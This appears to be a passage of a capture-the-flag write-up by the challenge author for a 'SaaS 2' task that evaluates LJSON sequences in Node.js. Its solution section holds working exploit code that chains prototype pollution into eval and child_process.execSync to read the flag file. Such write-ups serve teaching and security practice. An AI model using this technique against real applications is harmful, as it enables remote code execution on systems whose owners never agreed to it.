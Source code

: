 ```javascript
```

```javascript
// service.js

const LJSON = require("ljson");
const lib = require("./lib.js");

const sequence0 = process.argv[2];
const n0 = parseInt(process.argv[3]);
const sequence1 = process.argv[4];
const n1 = parseInt(process.argv[5]);

console.log([
  LJSON.parseWithLib(lib, sequence0)({}, n0),
  LJSON.parseWithLib(lib, sequence1)({}, n1),
]);
```

This challenge differs from SaaS 1 in the following points:

- `lib` doesn't have the function `self`.
- For each request, `LJSON.parseWithLib` is executed twice.

### Solution

My solution is to gain RCE by Prototype Pollution.

```javascript
// solver/index.js

/* snip */

// Inverse of https://github.com/MaiaVictor/LJSON/blob/0c06399baddc08ede6457a59505e188ec0828dab/LJSON.js#L397
const toNumber = (name) => {
  const alphabet = "abcdefghijklmnopqrstuvwxyz";
  let number = 0;
  for (const c of name.split("").reverse()) {
    number *= alphabet.length;
    number += alphabet.indexOf(c);
  }
  return number;
};

const code = 'require("child_process").execSync("cat /flag.txt").toString()';

// A source of Prototype Pollution
const evilSequence0 = LJSON.stringify(($, map, n) =>
  $("set", $("set", map, "__proto__", null), "polluted", toNumber("eval"))
);

// A sink of Prototype Pollution
const evilSequence1 = LJSON.stringify((a, b, c) => a(code)).replace(
  "a(",
  "polluted("
);

const params = new URLSearchParams({
  sequence0: evilSequence0,
  n0: 0,
  sequence1: evilSequence1,
  n1: 0,
});

console.log(params);
```

[^unintended]: I welcome unintended solutions because they help me learn something and create diversity in the challenges (but, as an author, I should emit no unintended solutions to maintain the quality of challenges).
[^xs-leak]: Frame Counting | XS-Leaks Wiki: https://xsleaks.dev/docs/attacks/frame-counting/